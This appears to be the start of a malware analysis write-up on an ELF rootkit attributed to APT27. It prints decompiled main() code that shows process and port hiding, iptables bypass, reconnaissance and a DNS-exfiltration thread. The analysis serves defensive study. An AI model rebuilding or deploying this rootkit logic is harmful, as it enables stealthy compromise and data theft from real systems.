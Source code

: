 ## APT27 rest active ?
### Initital approach

<h4>Thanks to <a href="https://twitter.com/KorbenD_Intel">KorbenD</a> for sharing the sample recently detected by Thor (<a href="https://www.virustotal.com/gui/file/cc1455e3a479602581c1c7dc86a0e02605a3c14916b86817960397d5a2f41c31/details">here</a>).</h4>
<h4>The ELF rootkit begins to initiate for hiding the process to user. This begins to get the system informations by recon actions (computername, user, mac, interfaces informations...) and begin as daemon for running in the background. This performs several hide ways for hiding the activity to user and also bypass the iptables for launch the main thread and UDP subthread (DNS exfiltration). If the attribute of the elf isn't good, this modify theirs attributes of the owner by lchown call.</h4>

```cpp
undefined8 main(undefined8 argc, char **argv)
{
 undefined8 *puVar1;
 uint16_t uVar2;
 uint32_t uVar3;
 undefined8 uVar4;
 char **s;
 undefined8 var_24h;
 int32_t var_18h;
 int64_t var_14h;
 
 var_24h._0_4_ = (int32_t)argc;
 if ((int32_t)argc < 2) {
  var_14h._0_4_ = 0;
  while ((int32_t)var_14h < (int32_t)var_24h) {
   uVar4 = strlen(argv[(int32_t)var_14h]);
   memset(argv[(int32_t)var_14h], 0, uVar4);
   var_14h._0_4_ = (int32_t)var_14h + 1;
  }
  puVar1 = (undefined8 *)*argv;
  *puVar1 = 0x68655f697363735b;
  *(undefined2 *)(puVar1 + 1) = 0x5d;
  get_mac((char *)MAGIC);
  daemon(1);
  init_crc_table();
  uVar3 = getpid();
  HidePidPort(1, (uint64_t)uVar3);
  var_18h = 0;
  while (var_18h < 3) {
   HidePidPort(3, (uint64_t)*(uint32_t *)(DecRemotePort + (int64_t)var_18h * 4));
   var_18h = var_18h + 1;
  }
  HidePidPort(3, 0x1776);
  HidePidPort(7, 0x1776);
  uVar3 = inet_addr(_DNS_ADDR);
  bypass_iptables(0xd, (uint64_t)uVar3);
  uVar2 = htons(0x1776);
  bypass_iptables(0xe, (uint64_t)uVar2);
  uVar2 = htons(0x1776);
  bypass_iptables(0xf, (uint64_t)uVar2);
  pthread_create((int64_t)&var_24h + 4, 0, MainThread, 0);
  pthread_create((int64_t)&var_24h + 4, 0, UdpThread, 0);
  pause();
 } else {
  if ((int32_t)argc == 2) {
   lchown(argv[1], 0x95b62d85, 0xf100cbff);
  }
 }
 return 0;
}
```